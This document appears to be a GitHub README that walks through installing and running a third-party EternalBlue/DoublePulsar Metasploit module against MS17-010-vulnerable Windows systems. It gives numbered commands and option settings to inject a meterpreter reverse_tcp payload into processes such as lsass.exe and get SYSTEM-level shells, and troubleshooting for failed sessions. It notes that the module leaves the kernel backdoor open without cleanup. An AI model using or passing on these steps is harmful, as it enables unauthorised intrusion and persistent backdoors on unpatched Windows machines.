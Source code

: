 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone https://github.com/w0rtw0rt/EternalBlue to any directory
	2.) Place eternalblue-doublepulsar.rb file into the /usr/share/metasploit-framework/modules/exploits/windows/smb folder
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for .wine (mkdir .wine)
	6.) cd .wine 
	7.) mkdir drive_c
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set RHOST *target IP*
	15.) set TARGETARCHITECTURE *x86 or x64*
	16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
	17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
